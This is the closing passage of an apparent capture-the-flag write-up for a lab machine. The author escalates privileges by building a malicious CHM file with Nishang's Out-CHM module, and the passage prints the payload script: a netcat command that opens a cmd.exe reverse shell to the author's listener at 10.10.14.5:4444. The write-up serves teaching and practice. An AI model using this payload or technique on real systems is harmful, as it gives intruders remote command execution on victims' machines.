 The offensive Powershell framework [Nishang](https://github.com/samratashok/nishang) can help with this! It contains a module called [Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) for generating malicious CHM payloads. I couldn't run this script in Kali or on the target because it requires the HTML Help Workshop binary (hhc.exe), which isn't on either. I jumped across to a Windows VM to set it up and used a basic payload - it's a "Powershell script" that just sends me a new netcat reverse shell using the binary I've already transferred across.
  - I Download and install the HTML Help Workshop from https://www.microsoft.com/en-au/download/details.aspx?id=21138
  - shell.ps1 simply contained: `C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.5 4444 -e cmd.exe`
  
![Image](./img/sniper_privesc_nishang.png)

Now that I have my malicious .chm file, I just need to transfer it to **C:\Docs** with my .ps1 payload and wait to catch a shell...

![Image](./img/sniper_privesc_shell.png)

And That's it! Thanks for reading :) As always, if you'd like to give feedback please email me at <apr4h.ctf@gmail.com>.

